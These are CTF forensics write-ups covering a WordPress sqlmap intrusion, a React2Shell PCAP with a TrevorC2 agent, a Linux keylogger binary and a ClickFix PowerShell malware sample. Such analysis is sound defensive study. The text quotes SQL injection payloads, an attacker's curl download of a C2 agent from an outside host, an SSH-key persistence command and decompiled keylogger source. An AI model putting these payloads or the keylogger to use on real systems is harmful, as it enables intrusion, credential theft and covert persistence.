These are my forensics write-ups from Country-2-Country CTF 2026 Qualification. Each section follows the solving process recorded during the investigation.

## log

Points: 100

### Description

Author: daffainfo

My website has been hacked. Please help me answer the provided questions using the available logs!

### Solution

The challenge provided `error.log`, `access.log`, and a remote question-and-answer service.

```text
Question #1:
1. What is the Victim's IP address?
Required Format: 127.0.0.1
Your Answer 182.8.97.244
```

I used the first line of `access.log` to identify the address requested as the victim’s IP.



The attacker was `219.75.27.16`, which appeared with a sqlmap User-Agent.

```text
Question #2:
2. What is the Attacker's IP address?
Required Format: 127.0.0.1
Your Answer 219.75.27.16
```

```text
219.75.27.16 - - [11/Jan/2026:12:52:03 +0000] "GET /wp-json/layart/v1/fonts?family=1 HTTP/1.1" 200 564 "http://165.22.125.147/wp-json/layart/v1/fonts?family=1" "sqlmap/1.10.1.21#dev (https://sqlmap.org)"
```

I counted six login attempts. My notes record an instance response of five, while both the answer transcript and solver below use six. I have retained that discrepancy from the original investigation.

```text
Question #3:
3. How many login attempts were made?
Required Format: 1337
Your Answer 6
```



Since the site ran WordPress, I searched `access.log` for `plugin` and checked the attacker’s requests before the sqlmap activity. They referenced Easy Quotes.

```text
Question #4:
4. Which plugin was affected?
Required Format: -
Your Answer Easy Quotes
```

```text
219.75.27.16 - - [11/Jan/2026:12:45:13 +0000] "GET /wp-content/plugins/easy-quotes/public/js/script.js?ver=1768134453 HTTP/1.1" 200 2466 "http://165.22.125.147/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.56 Safari/537.36"
```

Searching for SQL injection in that plugin led me to `CVE-2025-26943`.

```text
Question #5:
5. What is the CVE ID?
Required Format: CVE-XXXX-XXXX
Your Answer CVE-2025-26943
```



Searching the log for `sqlmap` exposed the tool version.

```text
Question #6:
6. Which tool and version were used to exploit the CVE?
Required Format: tool_name/13.3.7
Your Answer sqlmap/1.10.1.21
: Status: Correct!
```



For question 7, I examined the injected queries and their timestamps. One example was:

```text
11/Jan/2026:12:55:19 1%27%20AND%20%28SELECT%206475%20FROM%20%28SELECT%28SLEEP%285-%28IF%28COALESCE%28SESSION_USER%28%29%2CUSER%28%29%29%20IS%20NOT%20NULL%2C0%2C5%29%29%29%29%29jBqy%29--%20GBKf
```

The next request was:

```text
11/Jan/2026:12:55:24 1%27%20AND%20%28SELECT%209750%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ISNULL%28VECTOR_DIM%28NULL%29%29%2C0%2C5%29%29%29%29%29nzXk%29--%20cBOA
```

It was followed by:

```text
11/Jan/2026:12:55:24 1%27%20AND%20%28SELECT%204983%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ISNULL%28JSON_STORAGE_FREE%28NULL%29%29%2C0%2C5%29%29%29%29%29gJEg%29--%20mubo
```

The payloads used time-based blind SQL injection. Their conditions controlled a delay, which I compared with the next request’s timestamp. Some payloads used different sleep values.

I used the following script to recover the email address from the character comparisons.

```python
#!/usr/bin/env python3
import re
from urllib.parse import unquote

with open('access.log', 'r') as f:
    log_data = f.read()

queries = []
for line in log_data.split('\n'):
    if 'user_email' in line and 'MID' in line and 'sqlmap' in line:
        decoded = unquote(line)
        match_ne = re.search(r'MID.*?user_email.*?LIMIT 0,1\),(\d+),1\)\)!=(\d+)', decoded)
        if match_ne:
            position = int(match_ne.group(1))
            ascii_val = int(match_ne.group(2))
            queries.append((position, ascii_val, line))

queries.sort(key=lambda x: x[0])
pass_chars = {}

for pos, ascii_val, line in queries:
    if pos not in pass_chars:
        pass_chars[pos] = ascii_val

if pass_chars:
    password_hash = ''.join([chr(pass_chars[i]) for i in sorted(pass_chars.keys())])
    print(f"Extracted : {password_hash}")
    print(f"Length: {len(password_hash)} characters")
else:
    print("No data found")
```

```text
Question #7:
7. What is the email address obtained by the attacker?
Required Format: r00t@localhost.xyz
Your Answer admin@daffainfo.com
```



For the password hash, I reused the script with `user_email` replaced by `user_pass`.

```text
Question #8:
8. What is the password hash obtained by the attacker?
Required Format: -
Your Answer $wp$2y$10$vMTERqJh2IlhS.NZthNpRu/VWyhLWc0ZmTgbzIUcWxwNwXze44SqW
```



For the final question, I searched for `wp-login` requests from the attacker after the sqlmap activity.

```text
Question #9:
9. When did the attacker successfully log in?
Required Format: DD/MM/YYYY HH:MM:SS
Your Answer 11/01/2026 13:12:49
```

```text
219.75.27.16 - - [11/Jan/2026:13:12:46 +0000] "GET /wp-login.php?redirect_to=http%3A%2F%2F165.22.125.147%2Fwp-admin%2F&reauth=1 HTTP/1.1" 200 4491 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.56 Safari/537.36"
```

`solver.py`

```python
from pwn import *
p = remote('challenges.1pc.tf', 44385)
print(p.recvuntil(b'\n').decode())
answers = [
    '182.8.97.244',
    '219.75.27.16',
    '6',
    'Easy Quotes',
    'CVE-2025-26943',
    'sqlmap/1.10.1.21',
    'admin@daffainfo.com',
    '$wp$2y$10$vMTERqJh2IlhS.NZthNpRu/VWyhLWc0ZmTgbzIUcWxwNwXze44SqW',
    '11/01/2026 13:12:49'
]

for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)
print(p.recvall().decode())
```

### Flag

```text
C2C{7H15_15_V3rY_345Y_e7946fa47e10}
```

## react

Points: 100

### Description

Author: daffainfo

One month ago, there was a massive attack on one of the popular JS frameworks, and it seems like my website was affected as well...

You can use Wireshark to analyze the PCAP file.

### Solution

The challenge provided a PCAP and a remote service with investigation questions.

```text
Question #1:
1. What is the IP address of the attacker?
Required Format: 127.0.0.1
Your Answer:
```


In Wireshark’s conversation list, `192.168.56.104` stood out for its traffic volume, suggesting reconnaissance.

```text
Question #2:
2. What is the IP address of the victim?
Required Format: 127.0.0.1
Your Answer:
```


The other endpoint in the conversation identified the victim as `192.168.56.103`.

```text
Question #3:
3. What tools did the attacker use first? (Lowercase)
Required Format: -
Your Answer:
```



Filtering for the attacker revealed many SYN packets directed at different ports. I identified the initial reconnaissance tool as Nmap.

```text
Question #4:
4. Which CVE ID was exploited by the attacker?
Required Format: CVE-XXXX-XXXX
Your Answer:
```



The HTTP traffic contained requests related to Next.js. One POST stood out because it returned 303, while an earlier POST to the same endpoint returned 200.



Following that HTTP stream revealed a React2Shell payload, identifying the exploited vulnerability as `CVE-2025-55182`.

```text
Question #5:
5. What was the first command executed by the attacker?
Required Format: -
Your Answer:
```



The same stream showed the first command: `echo 123`.

```text
Question #6:
6. Which Command and Control (C2) framework is being used?
Required Format: Cobalt Strike
Your Answer:
```



A later stream showed the attacker downloading a C2 agent with `curl https://192.168.56.104:4433/t/agents/a.py -o a.py -k`.



The traffic then changed to requests containing seemingly random GUIDs. Searching for `c2 framework images?guid` led me to an article about TrevorC2 that matched the observed traffic.

```text
Question #7:
7. What encryption key / password was used to interact with the C2 server?
Required Format: -
Your Answer:
Status: Correct!
```

To recover the C2 password, I needed `a.py`. The earlier command showed that the agent was served on port 4433.



Filtering with `tcp.port == 4433` revealed TLS traffic. I used the supplied server key to export the HTTP objects:

```bash
tshark -r network.pcap -o "tls.keys_list:192.168.56.104,4433,http,server_key.pem" --export-objects http,exported_http
```

`a.py` was still obfuscated with reversed Base64 and zlib-compressed data.

I asked GPT to decode the repeated layers. The recovered configuration used `/images` with the `guid=` query parameter and the `oldcss=` data marker.

The `CIPHER` variable contained the C2 key: `aa34042ac9c17b459b93c0d49c7124ea`.

```text
Question #8:
8. What was the first file accessed by the attacker?
Required Format: /file/to/path
Your Answer:
Status: Correct!
```

I used `RandomTools/trevorC2Decrypt.py` with the recovered key to decrypt the commands in the capture.



The decrypted output showed that the first file accessed was `/etc/passwd`.

```text
Question #9:
9. What command or method was used by the attacker to establish persistence on the system?
Required Format: -
Your Answer:
```



The commands also showed an SSH public key being added to the `daffainfo` user’s `authorized_keys` file for persistence.

```text
Question #10:
10. Which MITRE ATT&CK technique corresponds to the persistence method used?
Required Format: T1337.000
Your Answer:
```



The corresponding MITRE ATT&CK technique was `T1098.004`.

`solve.py`

```python
from pwn import *

p = remote('challenges.1pc.tf', 20178)
print(p.recvuntil(b'\n').decode())

answers = [
    "192.168.56.104",
    "192.168.56.103",
    "nmap",
    "CVE-2025-55182",
    "echo 123",
    "TrevorC2",
    "aa34042ac9c17b459b93c0d49c7124ea",
    "/etc/passwd",
    "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4L46b5SCsXlizakO+iXIr2pjQ48dryUiX1tCGbzEUZ kali@kali' > /home/daffainfo/.ssh/authorized_keys",
    "T1098.004"
]

for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)

print(p.recvall().decode())
```

### Flag

```text
C2C{r34C725h3Ll_f0r_7H3_W1n_bccdb8133ff0}
```

## Tattletale

Points: 100

### Description

Author: aseng

Apparently I have just suspected that this serizawa binary is a malware .. I was just so convinced that a friend of mine who was super inactive suddenly goes online today and tell me that this binary will help me to boost my Linux performance.

Now that I realized something's wrong.

Note: This is a reverse engineering and forensic combined theme challenge. Don't worry, the malware is not destructive, not like the other challenge. Once you realized what does the malware do, you'll know how the other 2 files are correlated. Enjoy warming up with this easy one!

### Solution

The challenge supplied three files: the `serizawa` binary, `cron.aseng`, and a salted ciphertext named `whatisthis.enc`.



`strings` revealed a `PYZ` marker in the executable. I extracted it with PyInstxtractor and decompiled the bytecode with PyLingual. The recovered output was:

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'serizawa.py'
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import struct
import sys
import os
streya = '/dev/input/event0'
pvut = '/opt/cron.aseng'
strc = 'QQHHi'
evo = struct.calcsize(strc)
def prm():
    if os.geteuid()!= 0:
        sys.exit(1)
    if not os.path.exists(streya):
        sys.exit(1)
def kst():
    # irreducible cflow, using cdg fallback
    # ***<module>.kst: Failure: Compilation Error
    ec = 0
    with open(streya, 'rb') as diva:
        with open(pvut, 'ab') as of:
            while True:
                evd = diva.read(evo)
                if len(evd) < evo:
                    continue
                else:
                    of.write(evd)
                    of.flush()
                    ec += 1
        except KeyboardInterrupt:
            sys.exit(1)
            except PermissionError:
                print('Can\'t run.')
                sys.exit(1)
                except Exception as e:
                        print('Much err.')
                        sys.exit(1)
def main():
    prm()
    kst()
if __name__ == '__main__':
    main()
```

The program read keyboard events from `/dev/input/event0` and wrote them to `cron.aseng`. With Gemini’s help, I identified its `QQHHi` structure:

- `QQ`: two 8-byte timestamp values for seconds and microseconds.

- `H`: a 2-byte event type, such as `EV_KEY`.

- `H`: a 2-byte event code identifying the key.

- `i`: a 4-byte event value: 1 for press, 0 for release, or 2 for repeat.

I used that structure to parse `cron.aseng` and map the events to keystrokes.

```python
import struct
import sys

# Standard Linux Input Event Codes (subset)
# You can find the full list in linux/input-event-codes.h
KEY_MAP = {
    2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8', 10: '9', 11: '0',
    12: '-', 13: '=', 14: '[BACKSPACE]', 15: '[TAB]',
    16: 'q', 17: 'w', 18: 'e', 19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p',
    26: '[', 27: ']', 28: '[ENTER]\n', 29: '[L_CTRL]',
    30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g', 35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';',
    40: "'", 41: '`', 42: '[L_SHIFT]', 43: '\\',
    44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',', 52: '.', 53: '/',
    54: '[R_SHIFT]', 57: '[SPACE]', 100: '[R_ALT]'
}

def parse_cron_aseng(filename):
    event_size = struct.calcsize('QQHHi') # 24 bytes

    try:
        with open(filename, 'rb') as f:
            while True:
                data = f.read(event_size)
                if len(data) < event_size:
                    break

                # Unpack the binary data
                # tv_sec, tv_usec, type, code, value
                _, _, type_, code, value = struct.unpack('QQHHi', data)

                # type 1 is EV_KEY (Keyboard)
                # value 1 is Key Press (we ignore release (0) and repeat (2))
                if type_ == 1 and value == 1:
                    if code in KEY_MAP:
                        key = KEY_MAP[code]
                        # Simply print to stdout, handling special keys visually
                        if len(key) > 1 and key != '[SPACE]':
                             sys.stdout.write(key)
                        elif key == '[SPACE]':
                             sys.stdout.write(' ')
                        else:
                             sys.stdout.write(key)
                    else:
                        sys.stdout.write(f'[UNK:{code}]')

    except FileNotFoundError:
        print(f"Error: Could not find file {filename}")

if __name__ == "__main__":
    # Ensure you have 'cron.aseng' in the current folder
    parse_cron_aseng('cron.aseng')
    print("\n\n--- End of Capture ---")
```



The parser produced `4[L_SHIFT]-g00d[L_SHIFT]-fr1en[BACKSPACE][BACKSPACE]3n[UNK:58]d[UNK:58][L_SHIFT]-in[L_SHIFT]-n33[UNK:58]d`. I looked up key code 58 and identified Caps Lock. Applying the Shift, Backspace, and Caps Lock events gave `4_g00d_fr13nD_in_n33D`.

The recovered commands showed how `whatisthis.enc` had been encrypted. I decrypted it with:

```bash
openssl enc -d -aes-256-cbc -salt -pass pass:4_g00d_fr13nD_in_n33D -in whatisthis.enc
```



The result was still encoded in octal. I decoded it with:

```bash
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"".join(struct.pack("<H", int(w, 8)) for l in sys.stdin if l[0].isdigit() for w in l.split()[1:]))' < out
```



The decoded output contained the flag.

### Flag

```text
C2C{it_is_just_4_very_s1mpl3_l1nuX_k3ylogger_xixixi_haiyaaaaa_ez}
```

## FixClicked

Points: 100

### Description

Author: aseng

One of my friend's device has been compromised due to clickfix campaign. Can you investigate it further? The traffic is originally can also be retrieved from https://any.run/report/b55419bc7529bf574b4ba57b38c501a8ce2b0cd2b3ea66d19750a7d8e0c1796f/a5abf06f-112f-4072-9535-01006c3f955c.

WARNING: YOU ARE ABOUT TO ANALYZE A REAL MALWARE. THIS MALWARE HAS HARMFUL CAPABILITY SO DON'T FORGET TO ANALYZE IT INSIDE THE VM. AUTHOR IS NOT RESPONSIBLE WHETHER IF THERE ARE ANY DESTRUCTIVE ACTION PERFORMED BY THIS MALWARE.

### Solution

The challenge provided an ANY.RUN report and a remote question-and-answer service.

Judging from the traffic, it looks like the victim copied the powershell command to their terminal. What's the domain that preserve the malicious powershell script?

Format Example: evil.com

I first identified the malicious PowerShell process. ANY.RUN had flagged PID 7220.



I opened the full analysis and located that process in the HTTP requests to recover the hosting domain.



It looks like the malicious powershell script is run silently without showing the console windows. What's the function name that responsible to do it?

Format Example: Perlganteng

To examine the complete script, I downloaded the PCAP and filtered HTTP traffic. One request used a PowerShell User-Agent.



The response contained the executed script. Its console-hiding function called `ShowWindow` with a value of `0`.

The function responsible for hiding the console window was `ThsBFKNQuLtnyKgwB`.

The malicious powershell script also does perform a self-decryption from an encrypted buffer from $OYBwgNyGIBxTBIKUL variable. What are the key and iv used during that process respectively? Wrap both components in hexadecimal format and underscore!

Format Example: b0b0722b8c59f4d07f50bcbe6f1c787ceff42ba07c23e94f23019682a15e746a_bf9e133ea7d6a7a7f0a623dcaefca976

The script assigned the key and IV through these variables:

```powershell
$QWOhnChpEOZSrajqi.Key = $WhVeiSKkCagTAXrEy
$QWOhnChpEOZSrajqi.IV  = $UzVYIFNOEeKskZXDr
```

The values came from a function that decoded Base64 and XORed each byte with `0xD2`.





Still referring with the previous question, what's the SHA256 of the decrypted buffer? Please do answer in hexadecimal format.

Format Example: a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2

The buffer used CFB8 and ISO10126 padding. I decrypted it and calculated its hash with the following script.

```python
import base64, sys, hashlib
from Crypto.Cipher import AES

XOR = 210
def dec(s): return bytes(b ^ XOR for b in base64.b64decode(s))

key = dec("J84Rtq/gqJAFKgJyEGB3w1zw2asGadU+gIaa//F/u1Y=")
iv  = dec("UXi1xdR89K9d+mMMNTnV7A==")
ct  = dec(open(sys.argv[1]).read().strip())

pt = AES.new(key, AES.MODE_CFB, iv=iv, segment_size=8).decrypt(ct)
print(hashlib.sha256(pt).hexdigest())
open("out.bin", "wb").write(pt)
print(f"Saved {len(pt)} bytes → out.bin")
```

The output provided the SHA-256 of the decrypted buffer.



Diving to analyze the decrypted buffer which turns out to be an obfuscated executable, there can be spotted an uncompiled CSharp code which then later to be used for a potential process injection. What's the arbitrary function's name that responsible to perform this operation?

Format Example: InternationalBabadododt

ILSpy did not immediately give me readable code, so I used GPT to help analyze the executable. The relevant function was `AzeroFloid`, with the signature shown below.

```csharp
public static void AzeroFloid(string path, byte[] bytes); // signature excerpt
```

What's the built-in main target process path executable that the code is trying to inject to? Provide the full path!

Format Example: C:\System32\cmd.exe

I returned to ANY.RUN’s process graph to identify the injection target.



The target executable was `C:\Windows\SysWOW64\explorer.exe`.

What's the resource name (in the executable) that hold the encrypted buffer to be injected into that process?

Format Example: r3sollll

In ILSpy, I found that the encrypted payload was stored as a managed `ManifestResource` rather than an ordinary byte array.



The real buffer to be injected seems to be a Donut Shellcode. What's the SHA256 of the donut shellcode? Answer in a hexadecimal format.

Format Example: 1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b

GPT’s initial attempts to recover the shellcode hash were unsuccessful. I found the article “ClickFix Gets Creative: Malware Buried in Images” from Huntress and supplied it as a reference, after which the analysis produced the accepted hash.

